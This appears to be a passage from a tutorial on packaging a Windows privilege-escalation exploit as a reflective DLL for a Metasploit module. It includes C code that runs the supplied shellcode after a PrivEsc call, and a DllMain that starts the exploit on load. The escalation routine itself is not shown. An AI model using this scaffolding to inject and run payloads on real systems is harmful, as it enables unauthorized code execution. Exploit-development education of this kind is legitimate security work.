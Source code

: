 ## Using the ReflectiveDll loader in a metasploit module.
### Step 1 - Make your DLL
### Step 2  Write the DLL using an extern, C-linkage entry point to make testing easier
### Step 3 Add ReflectiveDLL Injection to it.
I also noticed and appreciated that others structured the code into two parts: Exploit and Exploiter.  Exploiter does the heavy lifting with functions, and Exploit calls the functions and runs the shellcode after the exploit completes.  For example, I made a privesc and the code required to accomplish the elevation was bundled in a function called `PrivEsc` contained within my `Exploiter.cpp` file.  The Exploit file was very simple in comparison:
```c
#include <Windows.h>
#include "Exploit.h"
#include "Exploiter.h"

static VOID ExecutePayload(LPVOID lpPayload)
{
  VOID(*lpCode)() = (VOID(*)())lpPayload;
  lpCode();
  return;
}

VOID Exploit(LPVOID lpPayload)
{
  PrivEsc();
  ExecutePayload(lpPayload);
}
```

Sure enough, if you check out the `ReflectiveDll.c` file, you can see that it is really straightforward and should look a lot like your previous `DllMain` function, except there's a function call in `DLL_PROCESS_ATTACH`:
```c
#include "ReflectiveLoader.h"
#include "Exploit.h"

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved)
{
  BOOL bReturnValue = TRUE;
  switch (dwReason) {
    case DLL_QUERY_HMODULE:
      if (lpReserved != NULL)
        *(HMODULE *)lpReserved = hAppInstance;
      break;
    case DLL_PROCESS_ATTACH:
      hAppInstance = hinstDLL;
      // MessageBox(0, "In DLLMain", "Status", MB_OK);
      Exploit(lpReserved);
      break;
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
      break;
  }
  return bReturnValue;
}
```

